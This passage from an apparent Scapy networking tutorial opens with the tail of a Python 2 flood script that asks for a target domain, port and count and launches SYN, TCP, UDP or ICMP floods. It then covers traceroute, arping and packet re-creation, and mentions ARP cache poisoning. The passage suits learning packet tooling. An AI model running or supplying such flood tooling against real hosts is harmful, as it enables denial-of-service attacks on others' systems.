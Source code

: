 ```python
            threading.Thread(target=tcpFlood(ip, port)).start()

    elif op == '3':
        for i in range(count):
            threading.Thread(target=udpFlood(ip, port)).start()

    elif op == '4':
        for i in range(count):
            threading.Thread(target=icmpFlood(ip)).start()

    else:
        print "Option not valid."
        sys.exit()

def getIP(domainName):
    return socket.gethostbyname(domainName)

if __name__ == '__main__':
    domainName = raw_input('Type the domain name: ')
    port = raw_input('Type the port: ')
    op = raw_input("Select the flood attack type: 1) syn, 2) tcp, 3)udp, 4) icmp ")
    count = raw_input("Select the count: ")
    ip = getIP(domainName)
    option(int(count), op, ip, port)
```



### More Networking
Scapy can perform simple networking functions such as  [traceroute](http://www.secdev.org/projects/scapy/doc/usage.html#tcp-traceroute-2) or [ping](http://www.secdev.org/projects/scapy/doc/usage.html#send-and-receive-in-a-loop):

```python
>>>> print scapy.traceroute('www.google.com')
```

Or be used to discover hosts on the local Ethernet, with [arping](http://www.secdev.org/projects/scapy/doc/usage.html#arp-ping):
```python
>>>> print arping('192.168.1.114')
```

Scapy has also commands for network-based attack such as [arpcachepoison  and srpflood](http://www.secdev.org/projects/scapy/doc/usage.html#tcp-traceroute).


Additionally, we can use Scapy to re-create a packet that has been sniffed or received. The method **command()** returns a string of the commands necessary for this task.


### Plotting
If you have [GnuPlot](http://www.gnuplot.info/) installed, you can use the plot functionality with Scapy. It's pretty neat.
